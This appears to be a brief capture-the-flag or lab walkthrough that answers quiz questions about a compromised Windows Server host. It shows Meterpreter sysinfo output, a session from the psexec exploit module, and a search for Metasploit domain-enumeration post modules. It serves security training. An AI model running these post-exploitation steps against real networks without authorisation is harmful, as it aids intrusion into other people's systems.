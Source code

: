 ```bash
```

### Question 1:
What is the computer name?

**Answer:** ACME-TEST

run sys info command to get the computer name

```bash
meterpreter > sysinfo
Computer        : ACME-TEST
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter > 
```

### Question 2:
What is the target domain?

**Answer:** FLASH

for this need to background meterpreter and search for this module post/windows/gather/enum_domain to gather information
```bash
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > back
msf6 > search post/windows/gather/enum_domain

Matching Modules
================

   #  Name                                         Disclosure Date  Rank    Check  Description
   -  ----                                         ---------------  ----    -----  -----------
   0  post/windows/gather/enum_domains             .                normal  No     Windows Gather Domain Enumeration
   1  post/windows/gather/enum_domain_users        .                normal  No     Windows Gather Enumerate Active Domain Users
   2  post/windows/gather/enum_domain              .                normal  No     Windows Gather Enumerate Domain
   3  post/windows/gather/enum_domain_group_users  .                normal  No     Windows Gather Enumerate Domain Group
   4  post/windows/gather/enum_domain_tokens       .                normal  No     Windows Gather Enumerate Domain Tokens


Interact with a module by name or index. For example info 4, use 4 or use post/windows/gather/enum_domain_tokens
```
